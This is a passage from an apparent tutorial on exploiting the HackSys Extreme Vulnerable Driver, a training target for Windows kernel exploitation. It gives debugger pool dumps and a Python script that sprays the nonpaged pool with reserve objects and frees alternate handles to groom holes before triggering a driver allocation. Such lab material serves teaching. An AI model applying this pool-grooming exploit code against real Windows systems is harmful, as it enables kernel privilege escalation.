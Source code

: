 ```
kd> !pool 0x85BDFD68
Pool page 85bdfd68 region is Nonpaged pool
 85bdf000 size:   60 previous size:    0  (Allocated)  IoCo (Protected)
 85bdf060 size:  d00 previous size:   60  (Free)       ....
*85bdfd60 size:   60 previous size:  d00  (Allocated) *Hack
		Owning component : Unknown (update pooltag.txt)
 85bdfdc0 size:   60 previous size:   60  (Allocated)  IoCo (Protected)
 85bdfe20 size:   60 previous size:   60  (Allocated)  IoCo (Protected)
 85bdfe80 size:   60 previous size:   60  (Allocated)  IoCo (Protected)
 85bdfee0 size:   60 previous size:   60  (Allocated)  IoCo (Protected)
 85bdff40 size:   60 previous size:   60  (Allocated)  IoCo (Protected)
 85bdffa0 size:   60 previous size:   60  (Allocated)  IoCo (Protected)
```

In order to prevent coalescence, we shoud reserve a allocated block between two freed blocks!
```
import sys,struct
from ctypes import *
from subprocess import *

def main():
    kernel32 = windll.kernel32
    ntdll = windll.ntdll

    hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, None, 0x3, 0, None)

    if not hevDevice or hevDevice == -1:
       print "[-] Couldn't get Device Driver handle."
       sys.exit(0)

    spray_event1 = spray_event2 = []

    for i in xrange(10000):
        spray_event1.append(ntdll.NtAllocateReserveObject(byref(HANDLE(0)), 0, 1))
 
    for i in xrange(5000):
        spray_event2.append(ntdll.NtAllocateReserveObject(byref(HANDLE(0)), 0, 1))

    for i in xrange(0, len(spray_event2), 2):
        kernel32.CloseHandle(spray_event2[i])

    # allocate
    kernel32.DeviceIoControl(hevDevice, 0x222013, None, None, None, 0, byref(c_ulong()), None)

if __name__ == "__main__":
    main()
```

We created numbers of holes for our exploit to dig in.
```
Pool page 859c0ee8 region is Nonpaged pool
 859c0000 size:   60 previous size:    0  (Allocated)  IoCo (Protected)
 859c0060 size:  e80 previous size:   60  (Free)       v.\.
*859c0ee0 size:   60 previous size:  e80  (Allocated) *Hack
		Owning component : Unknown (update pooltag.txt)
 859c0f40 size:   60 previous size:   60  (Allocated)  IoCo (Protected)
 859c0fa0 size:   60 previous size:   60  (Allocated)  IoCo (Protected)
```
